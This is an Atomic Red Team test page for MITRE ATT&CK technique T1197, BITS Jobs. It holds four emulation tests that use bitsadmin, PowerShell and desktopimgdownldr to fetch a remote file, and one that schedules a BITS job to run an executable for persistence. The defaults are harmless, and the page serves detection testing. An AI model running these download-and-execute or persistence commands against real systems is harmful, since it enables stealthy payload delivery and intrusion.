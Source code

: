 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)
<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bitsadmin Download (cmd)](#atomic-test-1---bitsadmin-download-cmd)

- [Atomic Test #2 - Bitsadmin Download (PowerShell)](#atomic-test-2---bitsadmin-download-powershell)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)

- [Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)](#atomic-test-4---bits-download-using-desktopimgdownldrexe-cmd)


<br/>

## Atomic Test #1 - Bitsadmin Download (cmd)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


**auto_generated_guid:** 3c73d728-75fb-4180-a12f-6712864d7421





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | Path | %temp%&#92;bitsadmin1_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Bitsadmin Download (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** f63b8bc4-07e5-4112-acba-56f646f3f0bc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | Path | $env:TEMP&#92;bitsadmin2_flag.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transferand execute a payload in multiple steps.
Note that in this test, the file executed is not the one downloaded. The downloading of a random file is simply the trigger for getting bitsdamin to run an executable.
This has the interesting side effect of causing the executable (e.g. notepad) to run with an Initiating Process of "svchost.exe" and an Initiating Process Command Line of "svchost.exe -k netsvcs -p -s BITS"
This job will remain in the BITS queue until complete or for up to 90 days by default if not removed.

**Supported Platforms:** Windows


**auto_generated_guid:** 62a06ec5-5754-47d2-bcfc-123d8314c6ae





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_path | Path of command to execute | Path | C:&#92;Windows&#92;system32&#92;notepad.exe|
| bits_job_name | Name of BITS job | String | AtomicBITS|
| local_file | Local file path to save downloaded file | Path | %temp%&#92;bitsadmin3_flag.ps1|
| remote_file | Remote file to download | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} NULL
bitsadmin.exe /resume #{bits_job_name}
timeout 5
bitsadmin.exe /complete #{bits_job_name}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)
This test simulates using desktopimgdownldr.exe to download a malicious file
instead of a desktop or lockscreen background img. The process that actually makes 
the TCP connection and creates the file on the disk is a svchost process (“-k netsvc -p -s BITS”) 
and not desktopimgdownldr.exe. See https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

**Supported Platforms:** Windows


**auto_generated_guid:** afb5e09e-e385-4dee-9a94-6ee60979d114





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| download_path | Local file path to save downloaded file | Path | SYSTEMROOT=C:&#92;Windows&#92;Temp|
| cleanup_path | path to delete file as part of cleanup_command | Path | C:&#92;Windows&#92;Temp&#92;Personalization&#92;LockScreenImage|
| cleanup_file | file to remove as part of cleanup_command | String | *.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
```

#### Cleanup Commands:
```cmd
del #{cleanup_path}\#{cleanup_file} >nul 2>&1
```





<br/>
